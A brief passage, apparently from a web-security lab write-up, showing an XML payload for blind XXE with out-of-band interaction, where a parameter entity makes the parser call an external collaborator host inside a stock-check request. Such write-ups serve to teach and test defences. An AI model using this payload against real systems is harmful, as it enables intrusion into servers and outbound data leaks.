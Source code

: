 ## 4. Blind XXE with out-of-band interaction via XML parameter entities

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://1z1tohoxitpcmwp5uc4i1ve9e0kr8jw8.oastify.com"> %xxe; ]>
    <stockCheck>
        <productId>3</productId>
        <storeId>1</storeId>
    </stockCheck>
```


